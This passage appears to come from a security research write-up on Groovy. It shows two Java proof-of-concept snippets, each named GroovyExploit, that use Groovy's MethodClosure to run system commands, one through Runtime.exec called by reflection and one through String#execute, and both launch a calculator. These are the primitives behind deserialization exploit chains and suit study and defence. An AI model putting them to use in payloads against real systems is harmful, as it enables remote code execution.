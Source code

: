 Use `MethodClosure` to execute system command test code as follows:

```java
package org.h3rmesk1t.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;
import java.lang.reflect.Method;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 2:01 pm
 */
public class GroovyExploit {

    public static void main(String[] args) throws Exception {

        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");
        Method method = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
        method.setAccessible(true);
        method.invoke(methodClosure, "open -a Calculator");
    }
}
```

<div align=center><img src="./images/2.png"></div>

### String#execute
In `org.codehaus.groovy.runtime.ProcessGroovyMethods`, `Groovy` has added an `execute` method to the `String` type, which returns a `Process` object. Therefore, in `Groovy`, you can directly use the `"ls".execute()` method to execute the system command `ls`.

<div align=center><img src="./images/3.png"></div>

The test code is as follows:

```java
package org.h3rmesk1t.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 2:01 pm
 */
public class GroovyExploit {

    public static void main(String[] args) throws Exception {

        MethodClosure methodClosure = new MethodClosure("open -a Calculator.app", "execute");
        methodClosure.call();
    }
}
```
